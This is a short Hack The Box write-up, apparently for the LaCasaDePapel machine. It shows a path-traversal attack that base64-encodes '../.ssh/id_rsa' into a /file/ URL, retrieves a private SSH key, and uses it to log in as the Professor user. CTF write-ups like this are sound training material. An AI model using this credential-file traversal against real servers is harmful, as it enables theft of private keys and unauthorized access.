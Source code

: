 # SSH Key

Can notice the files is base64 encoded 
![[Pasted image 20211201073442.png]]

```bash
$ echo U0VBU09OLTEvMDEuYXZp | base64 -d
```
![[Pasted image 20211201073531.png]]

Lets base64 the path for the file id_rsa on folder .ssh
```bash
$ echo -n ../.ssh/id_rsa | base64
Li4vLnNzaC9pZF9yc2E=
```

And place in url  as
```bash
https://lacasadepapel.htb/file/Li4vLnNzaC9pZF9yc2E=
```

![[Pasted image 20211201073921.png]]

* Trying ssh with some of this users
![[Pasted image 20211201074340.png]]

Logon as Professor 
![[Pasted image 20211201074454.png]]